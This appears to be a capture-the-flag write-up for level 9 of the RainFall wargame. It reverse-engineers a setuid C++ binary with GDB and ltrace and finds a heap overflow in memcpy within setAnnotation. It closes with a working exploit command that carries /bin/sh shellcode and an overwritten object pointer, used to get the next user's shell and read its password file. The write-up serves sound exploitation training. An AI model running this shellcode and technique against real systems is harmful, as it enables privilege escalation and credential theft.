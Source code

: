 ```sh
level9@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
level9@RainFall:~$ ./level9
level9@RainFall:~$ ./level9 42
```
There is one excutable file **level9**, it does nothing. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
0x080486f6  N::N(int)
0x080486f6  N::N(int)
0x0804870e  N::setAnnotation(char*)
0x0804873a  N::operator+(N&)
0x0804874e  N::operator-(N&)
```
Oh we can see some c++ style functions, N class, N::N(int) constructor etc...
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:     push   %ebp
   0x080485f5 <+1>:     mov    %esp,%ebp
   0x080485f7 <+3>:     push   %ebx
   0x080485f8 <+4>:     and    $0xfffffff0,%esp
   0x080485fb <+7>:     sub    $0x20,%esp
   0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:    jg     0x8048610 <main+28>
   0x08048604 <+16>:    movl   $0x1,(%esp)
   0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:    movl   $0x6c,(%esp)
   0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
   ... 
   0x08048654 <+96>:    mov    0x1c(%esp),%eax
   0x08048658 <+100>:   mov    %eax,0x14(%esp) # a
   0x0804865c <+104>:   mov    0x18(%esp),%eax
   0x08048660 <+108>:   mov    %eax,0x10(%esp) # b
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)  # ebp + 0xc argv[1]
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp) # this
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax # 0x10 b    0x14 a
   0x08048680 <+140>:   mov    (%eax),%eax # address of start shell code
   0x08048682 <+142>:   mov    (%eax),%edx # shell code
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   0x08048688 <+148>:   mov    %eax,0x4(%esp)
   0x0804868c <+152>:   mov    0x10(%esp),%eax
   0x08048690 <+156>:   mov    %eax,(%esp)
   0x08048693 <+159>:   call   *%edx
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave  
   0x08048699 <+165>:   ret    
End of assembler dump.
```
This time we can find function call which is mangled like ```call   0x8048530 <_Znwj@plt>```, We can find original function like this.
```sh
(gdb) info functions
...
0x08048530  operator new(unsigned int)
...
(gdb) x/i 0x08048530
   0x8048530 <_Znwj@plt>:       jmp    *0x8049b70
```
We can define the function ```_Znwj``` was ```operator new()```. its produced by GNU gcc, for more information, [link](https://en.wikipedia.org/wiki/Name_mangling#:~:text=Complex%20example%5B,(Itanium)%20ABI%3A). \
\
We could find some function with vulnerability in ```setAnnotation()``` at line +37.
```sh
(gdb) disas 0x804870e
Dump of assembler code for function _ZN1N13setAnnotationEPc: # setAnnotation(this, av)
   0x0804870e <+0>:     push   %ebp
   0x0804870f <+1>:     mov    %esp,%ebp
   0x08048711 <+3>:     sub    $0x18,%esp
   0x08048714 <+6>:     mov    0xc(%ebp),%eax # 0xc = param 1
   0x08048717 <+9>:     mov    %eax,(%esp) # this = esp,
   0x0804871a <+12>:    call   0x8048520 <strlen@plt>
   0x0804871f <+17>:    mov    0x8(%ebp),%edx # 0x8 = param 0
   0x08048722 <+20>:    add    $0x4,%edx
   0x08048725 <+23>:    mov    %eax,0x8(%esp)
   0x08048729 <+27>:    mov    0xc(%ebp),%eax
   0x0804872c <+30>:    mov    %eax,0x4(%esp)
   0x08048730 <+34>:    mov    %edx,(%esp)
   0x08048733 <+37>:    call   0x8048510 <memcpy@plt> # here
   0x08048738 <+42>:    leave  
   0x08048739 <+43>:    ret    
End of assembler dump.
```
They use ```memcpy()``` who has vulnerability of buffer overflow, its calling in main function with some parameter. it can represent like :
```cpp
void setAnnotation()
{
	memcpy();
}
```
```sh
(gdb) disas main
   ...
   0x08048664 <+112>:   mov    0xc(%ebp),%eax
   0x08048667 <+115>:   add    $0x4,%eax
   0x0804866a <+118>:   mov    (%eax),%eax
   0x0804866c <+120>:   mov    %eax,0x4(%esp)
   0x08048670 <+124>:   mov    0x14(%esp),%eax
   0x08048674 <+128>:   mov    %eax,(%esp)
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   ...
```
So basically, the main function has argc, argv and envp, and they are usual parameters passed to the function. \
According to this we can access these values as normal parameters. check the [stack frame role here](https://en.wikibooks.org/wiki/X86_Disassembly/Functions_and_Stack_Frames). \
\
We can concentrate on the line +112, it takes ```0xc``` of ebp, this means it takes ```argv[1]```, and save itself with dereferenced value. \
On the line +124 and +128, it gets ```0x14``` of esp which is one of the instance ```N```, and points itself. \
It will be like:
```c++
N *n = new N();
n->setAnnotation(av[1]);
```
So we can verify where is buffer overflow with argument,
```sh
(gdb) r aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9
Starting program: /home/user/level9/level9 aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2ad3ad4ad5ad6ad7ad8ad9ae0ae1ae2ae3ae4ae5ae6ae7ae8ae9

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) i r
eax            0x61366461       1630954593
ecx            0x3965   14693
edx            0x804a0a2        134520994
ebx            0x804a078        134520952
esp            0xbffff670       0xbffff670
ebp            0xbffff698       0xbffff698
```
it corruptes EAX, because
```sh
(gdb) disas main
   ...
   0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:   mov    0x10(%esp),%eax
   0x08048680 <+140>:   mov    (%eax),%eax
=> 0x08048682 <+142>:   mov    (%eax),%edx
   0x08048684 <+144>:   mov    0x14(%esp),%eax
   ...
```
After calling the function at +131, we can see copying the value of 0x10 of esp in eax. remember this information.
```sh
level9@RainFall:~$ ltrace ./level9 BBBB
__libc_start_main(0x80485f4, 2, 0xbffff7e4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) 	= 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) 				= 0
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)  						= 0x804a008
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) 									= 0x804a078 #\x0c\xa0\04\x08
strlen("BBBB") 																		= 4
memcpy(0x804a00c, "BBBB", 4) 														= 0x804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) 			= 0xb7fce4a0
```
We can see ```memcpy()``` copies in address 0x804a00c,
```sh
(gdb) b *main+128
Breakpoint 1 at 0x8048674
(gdb) r AAAA
Starting program: /home/user/level9/level9 AAAA

Breakpoint 1, 0x08048674 in main ()
(gdb) x $esp+0x10
0xbffff710:     0x0804a078
```
We check ESP address before enter the function ```memcpy()```, we can check its not far away from address of ```memcpy()```. \
Because of this, EAX was corrupted, at line main+136. \
\
The address of variable ```a``` is ```0x804a008``` and ```b``` is ```0x804a078``` \
difference between them is 112 (0x70). \
Knowing this we just have to simply buffer overflow the ```a```'s ```char annotation[100];``` variable by passing long string to ```av[1]```.
```sh
(gdb) disas 0x80486f6
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:     push   %ebp
   0x080486f7 <+1>:     mov    %esp,%ebp
   0x080486f9 <+3>:     mov    0x8(%ebp),%eax
   0x080486fc <+6>:     movl   $0x8048848,(%eax)
   0x08048702 <+12>:    mov    0x8(%ebp),%eax
   0x08048705 <+15>:    mov    0xc(%ebp),%edx
   0x08048708 <+18>:    mov    %edx,0x68(%eax) # memory space for int nb, char annotation[100]
   0x0804870b <+21>:    pop    %ebp
   0x0804870c <+22>:    ret
End of assembler dump.
```
```c++
a->setAnnotation(av[1]);
```
Since ```b```'s address (```0x804a078```) is now corrupted and changed to our desired address (```\x0c\xa0\04\x08```), \
the code will try to dereference twice:
```c++
return (b->*(b->func))(*a);
```
The flow of dereference is ... \
```\x0c\xa0\04\x08(start addr)``` -> ```\x10\xa0\x04\x08(start addr + 4)``` -> ```\x31\xc0\x50\x68...(shell code)```. \
\
So it will end with our exploitation shell code ```/bin/sh```.
```sh
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
(hidden)
```
level 9 passed !